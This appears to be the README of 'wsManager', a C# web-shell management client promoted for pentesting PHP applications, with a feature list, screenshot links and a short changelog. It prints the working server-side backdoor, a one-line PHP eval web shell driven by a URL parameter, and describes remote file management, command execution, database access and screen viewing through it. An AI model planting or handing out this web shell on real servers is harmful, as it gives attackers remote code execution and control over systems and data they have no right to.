 ## Information

wsManager can be used to quickly execute commands on a server while pentesting a PHP application. 
The client interface is written in C#, which operate using a simple web-based backdoor implemented by user himself.

Once uploaded, the web shell can be accessed by the client at any time. Once successfully connected, the user proceeds to manipulate files and data on the web server.

The server-side code is extremely simple and contains just a single line of code :
```php
<?php @eval($_GET["x"]); ?>
```

Many commands and control features:

  * File manager (upload, download, archiver, etc)
  * Command execution
  * SQL Explorer
  * Screen Viewer (windows only)

## Documentation

Coming soon

## Screenshots

![](https://i.imgur.com/1JfWKsR.png)
![](https://i.imgur.com/ZU4HJmd.png)
![](https://i.imgur.com/3I7Rjdf.png)
![](https://i.imgur.com/zbB5XTs.png)
![](https://i.imgur.com/VeRb4dN.png)
![](https://i.imgur.com/2qn6pYq.png)

## Changelog

### 09/09/2019
- ScreenViewer Added

## Misc

Todo:
  * .
